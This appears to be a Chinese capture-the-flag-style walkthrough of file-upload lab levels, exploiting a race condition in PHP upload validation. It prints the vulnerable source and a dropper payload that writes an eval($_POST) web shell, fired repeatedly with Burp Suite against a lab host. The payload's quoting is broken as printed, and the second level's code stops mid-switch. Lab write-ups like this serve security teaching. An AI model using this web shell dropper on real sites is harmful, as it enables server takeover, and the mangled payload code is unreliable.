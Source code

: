 ```
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
```

会将图片路径移动，并且删除上传的文件。

但是判断到删除有时间差，在php文件还没有被删除，然后**再产生新的php文件**。

条件竞争:利用代码执行的时间差，产生新的文件。



上传competition.php文件，

```php
<?php fputs(fopen( wuya.php' , 'w ),'<?php @eval($_POST[ "wuya"])?>');?>
```

burpsuite抓包使用intruder模块**不断发包上传**php文件。

![image-20221123163555707](https://img.gyxnb.top/img/image-20221123163555707.png)

同样使用burpsuite抓包**不断访问**http://192.168.31.193:7298/upload/competition.php，触发php文件，**产生新的php文件**。

![image-20221123165255899](https://img.gyxnb.top/img/image-20221123165255899.png)

连接成功

# pass19

```
require_once("./myupload.php");
$imgFileName =time();

var $cls_arr_ext_accepted = array(".doc", ".xls", ".txt", ".pdf", ".gif", ".jpg", ".zip", ".rar", ".7z",".ppt",".html", ".xml", ".tiff", ".jpeg", ".png" );

switch ($status_code) {
        case 1:
            $is_upload = true;
            $img_path = $u->cls_upload_dir . $u->cls_file_rename_to;
            break;
        case 2:
            $msg = '文件已经被上传，但没有重命名。';
            break; 
        case -1:
```
